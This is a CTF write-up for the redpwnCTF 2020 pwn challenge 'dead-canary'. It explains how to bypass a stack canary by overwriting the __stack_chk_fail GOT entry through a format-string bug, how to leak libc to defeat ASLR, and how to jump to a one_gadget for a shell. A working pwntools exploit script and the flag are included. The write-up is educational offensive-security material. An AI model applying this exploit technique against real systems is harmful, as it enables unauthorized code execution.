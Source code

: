 ```yaml
---
layout: post
title: "dead-canary"
author: "raghul-rajasekar"
---
```


It is a terrible crime to slay a canary. Killing a canary will keep your exploit alive even if you are an inch from segfaults. But at a terrible price.
`nc 2020.redpwnc.tf 31744`

**Files:**
- [dead-canary]({{site.baseurl}}/assets/dead-canary/dead-canary)

## Solution

Let's take a look at the disassembly of `dead-canary` using IDA:

![secret-flag disassembly]({{site.baseurl}}/assets/dead-canary/dead-canary.png)

Seems similar to `secret-flag`: canary-enabled, program reads input once and prints it back using `printf`, creating a format-string vulnerability. The only difference here is that the flag isn't read into memory: we'll have to create a reverse shell to access the flag. This is a lot harder than `secret-flag` because we'll now have to write over addresses and that means having to deal with the canary. Or does it?

### Writing using format-string vulnerability
Format-string vulnerabilities are very useful to launch an attack because they not only let us read from any address, they also let us _write_ to any address using the `%n` format specifier. Given an address as an argument, it stores a 4-byte value equal to the number of characters printed by `printf` before `%n`. For us, it's a hack allowing us to load an address onto the stack as an argument and write values to that address. `%hn` gives us more fine-grained control by letting us write 2 bytes at a time. However, the fact stands that for whatever value we want to write, that many characters must be printed. To avoid filling up the buffer unnecessarily, we can use the _padding_ feature of format specifiers. For example, `%20d` prints an integer with suitable padding such that 20 characters are printed. Using these facts and the fact that we can give some address in the buffer and use the `%x$n` to write to that address (after suitably calculating `x`), we can now theoretically overwrite any value in memory.

### Need for `one_gadget`
Before we get to how we're going to bypass the canary check, it's important to note that the `read` instruction in the `dead-canary` binary only allows us to overwrite the canary value, previous frame's base address (which isn't important anyway) and the return address using buffer overflow. Also, we won't be able to overwrite values on the stack as ASLR would be enabled and we wouldn't know the stack addresses beforehand, meaning that we can only rely on buffer overflow to overwrite stack values. This means we won't be able to stitch gadgets on the stack and will have to rely on `one_gadget` to provide us with a single address which we can jump to and execute to open a shell.

I went ahead assuming the `libc` file is the same as the one provided for the previous question, `the-library` (luckily I was right). Out of the three gadgets found, two of them relied on certain sections of the stack being zeroed out, which is hard to ensure. The gadget I chose, located at offset `0x4f2c5` in `libc`, required that the stack is aligned to 16 bytes and `rcx` is zeroed out. The second constraint is harder to satisfy as the canary check uses the `rcx` register. The check loads the canary value from the stack into `rcx`, XORs `rcx` with the stored canary value and calls `__stack_chk_fail` if `rcx` is not 0, which aborts the program. Thus, to create a reverse shell, we will have to "gracefully" bypass the canary check, ensuring that `rcx` is set to 0 as well. How do we do that?

### Bypassing canary check by overwriting GOT
To achieve this, we can first use the idea of overwriting values using `printf` to overwrite the GOT entry for `__stack_chk_fail`, making it jump elsewhere instead of aborting the program. However, we can't directly jump to the gadget due to ASLR. We will have to find the offset of `libc`, return back to the beginning of `main`, calculate the offset at which the gadget would be located in memory and overwrite the return address with this value using buffer overflow.

To ensure that `rcx` is set to 0, we can overwrite the GOT entry for `__stack_chk_fail` (located at `0x601028`) to make it point to the instruction where `rcx` is XORed with the actual canary value (`xor rcx, fs:28h` at `0x4007ea`), meaning that `rcx` eventually gets XORed twice with the value and finally holds the canary value from the stack. If we set this stack canary value to 0, the canary check will be passed and `rcx` would hold 0, which is what we want. Thus, we can freely perform buffer overflow afterwards while simply ensuring that the stack canary value is set to 0 each time.

### Bypassing ASLR
Finally, we need to find some known address from `libc` in order to calculate the offset at which it's loaded. We can use the GOT entry for `setbuf` for this (located at `0x601030`). We know that `setbuf` is located at an offset of `0x884d0` within `libc`, so we can calculate the new offset of the gadget using this.

To find the value of the GOT entry itself, we can use the `%s` format specifier. Thus, the overall idea is to send two payloads. The first payload achieves the following:
- Overwrites the GOT entry of `__stack_chk_fail` to `0x4007ea`
- Leaks the GOT entry of `setbuf`
- Sets stack canary value to 0
- Overwrites return value to beginning of `main` (at `0x400738`)

The second payload achieves the following:
- Sets stack canary value to 0
- Jumps to our gadget

The code below roughly illustrates the attack:

```python
from pwn import remote
p = remote('2020.redpwnc.tf', 31744)
payload0 = b'%10$s%2020d%9$hn\x00\x00\x00\x00\x00\x00\x00\x00\x28\x10\x60\x00\x00\x00\x00\x00\x30\x10\x60\x00\x00\x00\x00\x00' + b'abcd'*56 + b'\x00\x00\x00\x00\x00\x00\x00\x00abcdabcd\x38\x07\x40\x00\x00\x00\x00\x00'  # Find GOT table entry of setbuf, print appropriate number of spaces and overwrite GOT entry of __stack_chk_fail with location of instruction which XORs canary with rcx, JUNK, make sure location of canary is zeroed out, return to start of main
p.read()
p.write(payload0)
ret = p.read()
hex(int(ret[11:5:-1].hex(), 16) - int('884d0', 16) + int('4f2c5', 16))
payload1 = b'abcd'*66 + b'\x00\x00\x00\x00\x00\x00\x00\x00abcdabcd\xc5\xe2\xa7\xc7\x2f\x7f\x00\x00'  # Ended up calculating the gadget address manually
p.write(payload1)
p.interactive()  # do whatever you want with shell here
```

## Flag

`flag{t0_k1ll_a_canary_4e47da34}`
